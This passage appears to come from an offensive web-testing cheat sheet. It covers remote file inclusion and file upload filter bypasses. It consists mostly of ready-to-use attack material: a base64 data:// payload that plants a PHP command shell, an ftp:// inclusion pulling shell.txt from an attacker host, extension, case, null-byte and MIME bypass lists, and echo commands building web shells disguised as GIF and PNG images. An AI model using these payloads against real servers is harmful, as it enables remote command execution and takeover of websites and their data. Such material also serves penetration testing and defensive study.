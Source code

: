 **Advanced RFI Techniques:**
```bash
# Using data:// protocol
http://target_ip/page.php?file=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7ID8%2B&cmd=id

# Using ftp:// protocol
http://target_ip/page.php?file=ftp://attacker_ip/shell.txt&cmd=ls
```

### Scenario 4: File Upload Vulnerabilities

#### 4.1 Client-Side Bypass Techniques
**Frontend Restriction Bypass:**
```javascript
// Modify file extension after selection
document.querySelector('input[type="file"]').files[0].name = "shell.php.jpg"

// Remove client-side validation
// Delete JavaScript validation functions in browser console
```

#### 4.2 Server-Side Filter Bypasses

**Extension-Based Bypasses:**
```bash
# Alternative PHP extensions
shell.php3, shell.php4, shell.php5, shell.phtml, shell.inc

# Double extensions
shell.php.jpg, shell.jpg.php

# Case manipulation
shell.PhP, shell.pHp, shell.PHP

# Null byte injection (older systems)
shell.php%00.jpg, shell.php\x00.jpg
```

**MIME Type Bypasses:**
```bash
# Change Content-Type in request
Content-Type: image/jpeg
Content-Type: image/png
Content-Type: image/gif
```

**Magic Bytes Insertion:**
```bash
# Add GIF header to PHP shell
echo -e "GIF89a;\n<?php system(\$_GET['cmd']); ?>" > shell.gif

# Add PNG magic bytes
echo -ne "\x89PNG\r\n\x1a\n" > shell.png
echo "<?php system(\$_GET['cmd']); ?>" >> shell.png
```
